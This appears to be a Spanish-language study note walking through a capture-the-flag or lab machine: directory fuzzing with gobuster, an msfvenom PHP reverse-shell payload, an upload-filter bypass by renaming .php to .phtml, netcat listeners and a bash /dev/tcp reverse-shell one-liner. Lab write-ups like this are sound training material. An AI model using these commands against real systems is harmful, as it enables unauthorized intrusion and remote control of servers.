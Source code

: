 
Tenemos que hacer Fuzzing para encontrar directorios ocultos podemos usar [[00. Apuntes/01. Herramientas/GOBUSTER|GOBUSTER]]
`gobuster dir -u http://10.10.66.61:3333/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

Viendo todos los directorios que nos ha dado vamos probando hasta que encontremos lo que queremos en este caso un directorio que nos permite la subida de ficheros. 
Vamos a crear con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] un payload de PHP
`msfvenom -p php/reverse_php LHOST=10.9.5.218 LPORT=443 raw > pwned.php`

La web no nos permite subir archivos .php
Podemos cambiar la extension de .php por .phtml

Ahora tenemos que buscar con Fuzzing donde se suben los archivos, volvemos a usar [[[00. Apuntes/01. Herramientas/GOBUSTER|GOBUSTER]] pero ahora desde el punto en el que estamos en la URL, añadiendolo asi a la URL de [[[00. Apuntes/01. Herramientas/GOBUSTER|GOBUSTER]]

Nos ponemos en escucha con [[NETCAT]] en el puerto configurado con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
`nc -lvnp 443`

Como con [[NETCAT]] se pierde rápido la conexión en otra terminal nos ponemos en escucha en un puerto diferente
`nc -lvnp 4444`

Y en el Primer [[NETCAT]] enviamos una conexión con el siguiente comando
`bash -c "sh -i >& /dev/tcp/<IP_atacante/4444 0>&1"`

 Obteniendo así en el nuevo [[NETCAT]] una reverse shell
 